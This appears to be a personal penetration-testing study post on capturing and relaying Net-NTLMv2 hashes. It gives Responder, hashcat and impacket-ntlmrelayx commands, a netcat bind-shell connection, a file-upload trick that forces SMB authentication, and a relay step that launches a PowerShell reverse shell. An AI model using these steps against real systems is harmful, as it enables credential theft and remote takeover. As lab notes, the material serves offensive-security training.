 ```yaml
---
layout: post
title: Net-NTLMv2
titledate: 09/12/23
tags: ["infosec","offsec", "password", "ntlm", "responder", "exploit"]
---
```


#### net-NTLMv2

sometimes we may gain access to a system as an unpriveleged user which means we cannot use tools like mimikatz

in this example we will assume we setup a bind shell on our target windows machine and connect to it 

    $ nc 192.168.50.50 4444

we can now check which user we are logged in as and what priveleges we have

    $ whoami

    $ net user ted

ted does not belong to the administrator group but does belong to the Remote Desktop Users group

because we do not have Admin privs we can not use mimikatz, but we can setup an smb server and use ted to attempt authentication
to capture his NTLM hash

    $ sudo responder -I tun0

next we want to provide an arbitrary share in order to catch ted's auth creds

#### capturing creds from web form

    └─$ sudo responder -I tun0 -wd

then in the http form

    \\192.168.45.215\\test\blah to imaginary file to let us catch creds in our responder



if we visit our NC bind shell terminal to our first machine 

    C:\> dir \\192.168.119.2\test

in this example test does not exist

Responder will capture the hash so we can save it to ted.hash

and then find the hashcat mode 

    hashcat --help | grep -i "ntlm"

and using the NTLMv2 network protocol mode

    $ hashcat -m 5600 ted.hash /usr/share/wordlists/rockyou.txt --force

now we should be able to utilize the rdp protocol to connect with ted to the target machine with the cracked hash password

#### capturing ntlm via http upload vuln

in this example, the web server was vulnearble to a file upload vulnerability - while there was no executable php or asp code that could be achieved (as seen in the simple-backdoor.php file i attempted to upload), through this upload vuln we are able to pass the responder path to our non existing smb share to capture the ntlm hash

![_config.yml]({{ site.baseurl }}/images/exploitation/net_ntlm_file_upload.png)

after retrieving the hash via the method in the pic above we perform the last 2 hashcat steps mentioned in the steps above to get the password

#### relaying Net-NTLMv2

in this attack we will not only grab the hash but then forward it on to a target of our choosing with one of the impacket libraries ntlmrelayx 

    $ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc base64encode ps"

### Note: i used this one liner for a [PS reverse shell](https://st4rguard.github.io/evading_AV/)

in the command above we use no-http-server because we want to forward smb and then smb2 for smbv2 then our target machine and finally our command which we have opted for a powershell reverse shell one liner

next we conect to our target with netcat to get our client to attempt to establish an smb connection

    C:> dir \\192.168.1.1\test.txt

then in our ntlmrelayx tab we receive an incoming connection

this will establish our reverse shell connection
